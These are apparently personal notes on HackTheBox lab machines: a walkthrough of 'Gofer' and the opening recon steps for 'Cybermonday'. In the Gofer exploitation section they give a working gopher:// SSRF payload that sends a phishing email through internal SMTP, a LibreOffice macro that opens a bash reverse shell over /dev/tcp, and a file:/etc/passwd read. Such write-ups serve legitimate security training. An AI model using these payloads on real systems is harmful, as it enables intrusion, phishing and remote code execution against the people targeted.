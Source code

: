 ## Gofer
[write-up](https://rouvin.gitbook.io/ibreakstuff/writeups/htb-season-2/gofer)
### Reco
- NMAP
    - `nmap -sVC 10.10.11.225`
        ![](https://hackmd.io/_uploads/SkEh6Mdi2.png)
        - 22 SSH
        - 25 filtered SMTP
        - 80 HTTP (redirect gofer.htb)
            - add it to our /etc/hosts
        - 139,445 SAMBA (smbd 4.6.2)
            - clock-skew -2s
            - security-mode 311 (signing enabled but not required)
- Website
    - "We are team of talented designers making websites with **BOOTSTRAP**"
        - BootstrapMade
    - images are stored in /assets/img/portfolio
    - contact form could have some weakness
        ![](https://hackmd.io/_uploads/B1wqpMdih.png)
### Weaponisation
- SMB
    - using nmap we found samba, lets scan it
        - `smbmap -H 10.10.11.225 -u " "`
            ![](https://hackmd.io/_uploads/r1R21Qdjn.png)
            - we have "read only" permissions to disk **SHARES**
    - let´s look inside shares disk
        - `smbclient -N //10.10.11.225/shares`
            ![](https://hackmd.io/_uploads/H1GPe7dsn.png)
    - analyze obtained backedup **email**
        - ![](https://hackmd.io/_uploads/HJCFlXusn.png)
            - email addresses: jdavis@gofer.htb, tbuckley@gofer.htb
            - they are sending important documents internally by mail
                - using .odt format (Libreoffice, not Office Word)
            - there is a proxy
- Dir scan
    - `dirsearch -u http://gofer.htb/`
        - we can access gofer.htb/assets
        ![](https://hackmd.io/_uploads/BJumDXOs2.png)
    - /assets
        - style.css, main.js
            - template Maxim v4.9.1
        - php-email-form/validate.js
            - PHP Email Form Validation v3.5
        ![](https://hackmd.io/_uploads/H1zvwm_oh.png)
- Proxy
    - let´s find the proxy
        - `ffuf -w /usr/share/wordlists/wfuzz/general/common.txt -u "http://gofer.htb" -H "Host: FUZZ.gofer.htb" -fw 20`
            - **proxy.gofer.htb** -> add it to /etc/hosts
                ![](https://hackmd.io/_uploads/H13NMXujn.png)
        
### Exploitation
- **SSRF**
    - when accessing proxy.gofer.htb, there is a login pop-up window
        - Lets try the POST request for the index.php 
            - `curl -X POST http://proxy.gofer.htb/index.php`
            ![](https://hackmd.io/_uploads/Sy35nT9sn.png)
                - passed without credentials, but nothing more...
        - there could be a SSRF vuln
            - URL parameter can be specified like this:
                - `curl -X POST http://proxy.gofer.htb/index.php?url=http://<LOCAL_IP>`
            - now we can try /passwd path
                - `curl -X POST http://proxy.gofer.htb/index.php?url=file:///etc/passwd`
            - after a bit of testing and modifying...
                - `curl -X POST http://proxy.gofer.htb/index.php?url=file:/etc/passwd`
- We need to use an .odt format to exploit this, and it appears that this is from the user Jeff Davis from the company site (with a username of jdavis, so we know the username naming convention). 
    - Since we have some kind of SSRF on the proxy service, we might be able to force a user to download and execute a malicious .odt file via macros to get the first shell. However, we first need to find out how to send an email through the proxy to the user since SMTP is not publicly facing. 
    - Based on the box name alone, I sort of figured out that we need to use the gopher:// protocol, which is used to send files to other users. 
- !!! **important knowledge**: [SSRF](https://infosecwriteups.com/server-side-request-forgery-to-internal-smtp-access-dea16fe37ed2?gi=50c9cd56d751) and [Gopherus payload](https://github.com/tarunkant/Gopherus) !!!
- OK: we want to use the **gopher** protocol to craft an ssrf payload based on the information in the email found on smb
    - right path to a foothold is in the obtained email
        - we can use the mentioned Gopherus for creating payload:
- **1. PAYLOAD:** 
    - `curl -X POST "http://proxy.gofer.htb/index.php?url=gopher://2130706433:25/xHELO%250d%250aMAIL%20FROM%3A%3Ciamanidiot@gofer.htb%3E%250d%250aRCPT%20TO%3A%3Cjhudson@gofer.htb%3E%250d%250aDATA%250d%250aFrom%3A%20%3Ciamanidiot@gofer.htb%3E%250d%250aTo%3A%20%3Cjdavis@gofer.htb%3E%250d%250a%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250a<a+href%3d'http%3a//10.10.14.24/macro.odt>open</a>%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a"`
        - [.odt file HINT](https://jamesonhacking.blogspot.com/2022/03/using-malicious-libreoffice-calc-macros.html)
- **2. MACRO:**
    - prepare it by this [guide](https://jamesonhacking.blogspot.com/2022/03/using-malicious-libreoffice-calc-macros.html)
                
> Sub Main
> Shell("bash -c 'bash -i >& /dev/tcp/<LOCAL_IP>/<LOCAL_PORT> 0>&1'")
> End Sub

- **3. HTTP.SERVER && NC:**
    - `nc -nlvp <LOCAL_PORT>`
    - `python3 -m http.server 80` //in the folder containing macro.odt
### User flag
### Root flag
- Linpeas
    -  lim8en1 (option #8)
    -  23+who

# Cybermonday
## Reco
- `nmap -sVC 10.10.11.228`
    - add cybermonday.htb to /etc/hosts...
        - sudo nano /etc/hosts
- FUZZING
    - `wfuzz -c -w /usr/share/wordlists/wfuzz/general/common.txt --hc 400,301 -H 'Host:cybermonday.htb/FUZZ' http://cybermonday.htb`
        - nothing found
    - `wfuzz -c -w /usr/share/wordlists/wfuzz/general/common.txt --hc 400,301 -H 'Host:FUZZ.cybermonday.htb' http://cybermonday.htb`
        - nothing found
    - `gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://cybermonday.htb -t 100`
        - nothing found




